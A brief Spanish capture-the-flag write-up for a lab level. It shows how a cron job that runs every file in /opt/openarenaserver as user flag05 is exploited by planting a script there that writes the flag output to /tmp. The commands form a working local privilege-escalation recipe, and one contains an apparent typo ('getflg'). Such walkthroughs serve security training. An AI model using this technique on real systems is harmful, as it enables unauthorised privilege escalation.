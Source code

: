 - Cuando entro encuentro que he tengo un mail
- En /var/mail/ hay un archivo (level05)
- cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
- cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
- El script que se ejecuta cada 2 minutos lo que hace es ejecutar todos los archivos que hay en /opt/openarenaserver/ y luego los borra
- (ulimit -t 5) es un comando que limita la ejecución a 5 segundos
- creo en /opt/openarenaserver un exploit con lo siguiente:
- echo "/bin/getflg > /tmp/flag05" > /opt/openarenaserver/exploit
- luego chmod 777 /opt/openarenaserver/exploit
- para ver el resultado watch -n 0.1 cat /tmp/flag05

